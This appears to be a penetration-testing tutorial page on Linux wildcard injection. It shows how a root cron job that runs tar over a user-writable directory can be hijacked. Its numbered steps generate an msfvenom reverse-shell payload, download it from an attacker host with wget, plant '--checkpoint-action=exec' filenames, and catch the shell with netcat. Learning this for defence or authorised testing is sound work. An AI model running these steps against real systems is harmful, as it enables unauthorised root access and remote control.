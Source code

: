 ### **Introduction**

When you use a wildcard character (\*) in a command argument, the shell performs a process called filename expansion or globbing. This replaces the wildcard with a space-separated list of all file and directory names in the current directory. You can observe this behavior by executing the command echo \* from your home directory.

### **Wildcards & Filenames**

Linux filesystems allow a wide range of characters in filenames. Because filename expansion occurs before command execution, you can inadvertently pass command-line options (like -h or --help) by creating files with these names. Here’s an example to illustrate this:

```bash
$ ls *
$ touch ./-l
$ ls *
```

Filenames aren't limited to simple options like -h or --help. You can also create filenames that correspond to more complex options, such as --option=key=value. Tools like GTFOBins can help you find commands with useful command-line options for such purposes.

### **Steps to Identify and Exploit Wildcard Vulnerabilities**

1.  By Running LinPEAS reveals a cron job running every minute as root, executing a script in /usr/local/bin using the absolute path.  
    
    ![](../../../../img/Linux-Environment/77.png)

    **NOTE:** Even without this being a red/yellow finding, it is worth a closer look!
    
2.  Check the permissions on the /usr/local/bin/ directory to determine if we can write to it:  
    `ls -l /usr/local | grep "bin"` 

    ![](../../../../img/Linux-Environment/78.png)

    **NOTE:** The bin directory is owned by root and the staff group. Our user has only read and execute permissions.
    
3.  However, Despite not having write permissions, we can still exploit this cron job by examining the script:  
    `ls -la /usr/local/bin/compress.sh`

    ![](../../../../img/Linux-Environment/79.png)

    **NOTE:** I guess that means we won’t be able to exploit this cron job since we don't write have permissions to compress.sh script
    
4.  Actually – not true at all! We definitely still can exploit this cron job!  
    `cat /usr/local/bin/compress.sh`  
    
    ![](../../../../img/Linux-Environment/80.png)

    **NOTE:** When a wildcard character (\*) is provided to a command as part of an argument, the shell will first perform filename expansion (also known as globbing) on the wildcard.
    
5.  The tar command is run with a wildcard in the /home/user directory.  
    `ls -l /home | grep "user"`  

    ![](../../../../img/Linux-Environment/81.png)

    **NOTE:** This confirms that our current user does have write permissions in the /home/user directory!
    
6.  GTFOBins shows that tar has command line options which can be used to run other commands as part of a checkpoint feature.  
    
    ![](../../../../img/Linux-Environment/82.png)
    
7.  we can use msfvenom to craft a reverse shell ELF payload  
    `msfvenom -p linux/x64/shell_reverse_tcp LHOST=[IP-ADRESS] LPORT=1337 -f elf -o shell.elf`  
    
    ![](../../../../img/Linux-Environment/83.png)

    **NOTE:** we can create files that are named different switches, and tar will execute them when it compresses everything in the directory.
    
8.  Now that our payload has been created, we can download it onto the target machine (check out FIle Transfer Section)  
    `wget http://[IP-ADRESS]:8000/shell.elf -O /home/user/shell.elf`  
    
    ![](../../../../img/Linux-Environment/84.png)
    
9.  it is still not ready. In order for the cron job to execute our binary, we need to give is execute permissions.  
    `chmod +x /home/user/shell.elf`
    
10. Lets Create two files in the /home/user directory:  
    `touch /home/user/--checkpoint=1 && touch /home/user/--checkpoint-action=exec=shell.elf`  
    
    ![](../../../../img/Linux-Environment/85.png)
    
11. The payload is ready and should trigger every minute. All that is left to do is start a netcat listener on out attacker machine  
    `nc -lvnp 1337`  
    
    ![](../../../../img/Linux-Environment/86.png)